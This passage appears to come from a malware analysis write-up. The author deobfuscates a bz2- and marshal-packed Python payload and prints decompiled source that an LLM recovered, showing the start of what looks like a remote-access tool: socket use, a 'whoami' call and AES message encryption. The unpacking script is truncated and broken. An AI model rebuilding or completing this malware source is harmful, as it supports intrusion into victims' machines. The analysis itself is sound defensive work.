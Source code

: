 ![](Images/Pasted%20image%2020250327225537.png)
I needed to further rebuild out the original payload to hopefully get further detail into house this payload was actually functioning. So I rebuild my original python script to mimic more of the behavior in the payload script.
```python
import marshal
import lzma
import gzip
import bz2
import binascii
import zlib

bytecode_bytes = b'BZh91AY&SY\x8d*w\x00\x00\n\xbb\x7f\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xfe\xee\xec\xe4\xec\xec\xc0?\xd9\xff\xfe\xf4"| 

try:
    decompressed_bz2 = bz2.decompress(bytecode_bytes)
    code_object = marshal.loads(decompressed_bz2)
    dis.dis(code_object)
except Exception as e:
    print(f"An error occurred: {e}")
```
This script was able to successfully interpreted and disassembled the original source code. I ended up giving the instructions to the LLM as my assembly skills were not up for the task. Thankfully it interpreted the entire dump and gave us a nicely formatted version of the decompiled source code.
```python
import os
import socket
import threading
import time
import random
import string
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

# Get current user
user = os.popen("whoami").read().strip()

# Constants
BUFFER_SIZE = 4096
SEPARATOR = "<SEPARATOR>"
CONN = True


def enc_mes(mes, key):
    """Encrypt a message using AES CBC mode."""
    try:
        cipher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        return cipher.encrypt(pad(mes.encode() if isinstance(mes, str) else mes, 16))
```
